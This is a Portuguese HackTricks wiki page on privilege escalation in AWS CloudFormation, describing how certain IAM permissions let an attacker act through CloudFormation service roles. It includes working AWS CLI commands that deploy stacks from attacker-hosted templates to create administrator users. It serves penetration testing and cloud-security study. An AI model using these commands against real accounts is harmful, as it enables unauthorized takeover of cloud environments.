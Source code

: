 # AWS - Cloudformation Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## cloudformation

Para mais informações sobre cloudformation, consulte:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Um atacante com as permissões **`iam:PassRole`** e **`cloudformation:CreateStack`** seria capaz de **escalar privilégios criando um template de CloudFormation** que executará ações e criará recursos usando as **permissões do papel que foi passado** ao criar uma pilha de CloudFormation.
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
Onde o template localizado no site do atacante inclui instruções para realizar **ações maliciosas, como criar um usuário administrador** e, em seguida, usar essas credenciais para escalar seu próprio acesso.

Na página a seguir, você tem um **exemplo de exploração** com a permissão adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc para a função de serviço cloudformation especificada.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Neste caso, você pode **abusar de um stack cloudformation existente** para atualizá-lo e escalar privilégios como no cenário anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo a permissão `UpdateStack`** em uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se você tem essa permissão, mas **não tem `iam:PassRole`**, ainda pode **atualizar as pilhas** usadas e abusar dos **Papéis IAM que já estão anexados**. Verifique a seção anterior para exemplo de exploração (apenas não indique nenhum papel na atualização).

A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo a permissão `UpdateStack`** em uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Um atacante com permissões para **passar um papel e criar & executar um ChangeSet** pode **criar/atualizar uma nova pilha do cloudformation e abusar dos papéis de serviço do cloudformation** assim como com o CreateStack ou UpdateStack.

O seguinte exploit é uma **variação do**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) usando as **permissões ChangeSet** para criar uma pilha.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo permissões de `ChangeSet`** em uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Este método é semelhante ao anterior, sem passar **funções IAM**, então você pode simplesmente **abusar das que já estão anexadas**, apenas modifique o parâmetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc para a função de serviço do cloudformation já anexada.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Um atacante poderia abusar dessas permissões para criar/atualizar StackSets para abusar de funções arbitrárias do cloudformation.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### `cloudformation:UpdateStackSet`

Um atacante poderia abusar dessa permissão sem a permissão passRole para atualizar StackSets para abusar das funções do cloudformation anexadas.

**Impacto Potencial:** Privesc para as funções do cloudformation anexadas.

## Referências

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
